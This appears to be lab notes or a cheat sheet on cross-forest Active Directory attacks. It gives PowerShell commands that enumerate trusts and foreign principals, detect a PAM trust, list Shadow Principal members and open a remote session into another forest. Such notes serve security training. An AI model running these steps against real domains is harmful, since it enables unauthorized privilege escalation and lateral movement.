 # 3 PAM Trust

## Cross Domain Attacks \[ Abusing PAM Trust ]

## PowerShell

### 1. Enumerating trusts and hunting for access

> We have DA access to the **techcorp.local** forest. By enumerating trusts and hunting for access, we can enumerate that we have Administrative access to the **bastion.local** forest.

```powershell
# PowerView
# From techcorp-dc
Get-ADTrust -Filter * 
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

### 2. Enumerate if there is a PAM trust

```powershell
# PowerView
$bastiondc = New-PSSession bastion-dc.bastion.local 
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined - eq $False)}} -Session $bastiondc
```

### 3. Check which users are members of the Shadow Principals

```powershell
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

### 4. Establish a direct PSRemoting session on bastion-dc and access production.local

```powershell
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
